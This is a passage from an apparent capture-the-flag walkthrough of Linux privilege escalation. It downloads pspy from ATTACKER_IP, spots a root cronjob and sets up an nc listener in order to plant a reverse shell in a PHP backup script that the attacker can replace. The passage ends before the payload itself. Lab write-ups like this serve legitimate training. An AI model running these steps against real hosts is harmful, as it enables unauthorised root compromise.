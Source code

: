 On the victim machine, we'll change to the `/tmp` directory then download it using [wget](https://linux.die.net/man/1/wget) and give it executable permissions using [chmod](https://linux.die.net/man/1/chmod) then run the binary:

```
cd /tmp
wget <ATTACKER_IP>:8888/pspy32
chmod +x pspy32
./pspy32
```

After letting pspy run for a couple of minutes, we will see the backup script being ran as a scheduled task ([cronjob](https://en.wikipedia.org/wiki/Cron)) with the User ID (UID) of 0 which is the user `root`:

![a042cf78f2090dc6cb9f4e602c1e41e7.png](/resources/bcab158143974b59bcef285251a0765d.png)

Press `CTRL + C` to close pspy.

### \[-] root\@opacity

Although these files are not writeable, they are all in a directory that we own (`/home/sysadmin/scripts/lib/`). We can simply delete or backup these files, remove them and replace them with our own malicious files.

To get a reverse shell as the user `root`, we will first have to make a backup copy of the `/home/sysadmin/scripts/lib/backup.inc.php` file:

```sh
cp /home/sysadmin/scripts/lib/backup.inc.php /home/sysadmin/scripts/lib/backup.inc.php.bak
```

Then we can delete the original `backup.inc.php` file, answer `y` when prompted:

```sh
rm /home/sysadmin/scripts/lib/backup.inc.php
y
```

![7e973e05657060e47f5d43a17732dd84.png](/resources/2c4b848062364ad5a6e11fe76e751130.png)

Next, copy the backup and give it the original name:

```sh
cp /home/sysadmin/scripts/lib/backup.inc.php.bak /home/sysadmin/scripts/lib/backup.inc.php
```

Now, we need to edit the `zipBackup` function so that when the scheduled task is ran, it will run out malicious reverse shell code and give us a shell back as root.

Let's start another listener on our attacking machine on a different port:

```sh
nc -nvlp 4445
```

Then edit the file using [nano](https://linux.die.net/man/1/nano):

```sh
nano backup.inc.php
```
